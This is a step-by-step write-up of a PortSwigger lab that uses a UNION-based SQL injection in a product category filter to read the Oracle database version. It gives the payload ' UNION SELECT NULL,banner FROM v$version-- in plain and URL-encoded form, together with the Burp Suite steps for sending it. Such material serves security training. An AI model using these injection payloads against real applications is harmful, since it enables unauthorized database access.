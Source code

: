 
# SQL injection attack, querying the database type and version on Oracle

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#oracle_database 
___
To get oracle database version
```sql
SELECT banner FROM v$version  
SELECT version FROM v$instance
' UNION SELECT banner FROM v$version--
```

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=Gifts` => send to repeater

![screnshot](lab7_fiter_category_gift_repeater.jpg)

step 2

`' UNION SELECT NULL,banner FROM v$version--`  => URL Encoded(`'+UNION+SELECT+NULL,banner+FROM+v$version--`)
add `'+UNION+SELECT+NULL,banner+FROM+v$version--`
`/filter?category=Gifts'+UNION+SELECT+NULL,banner+FROM+v$version--`

![screnshot](lab7_oracale_version.jpg)

step 3

to solve the lab
add `'+UNION+SELECT+NULL,banner+FROM+v$version--` at the end of URL

![screnshot](portswigger_wsa/P01_server_side_topic/P01_sql_injection/images/lab7_solved_lab.jpg)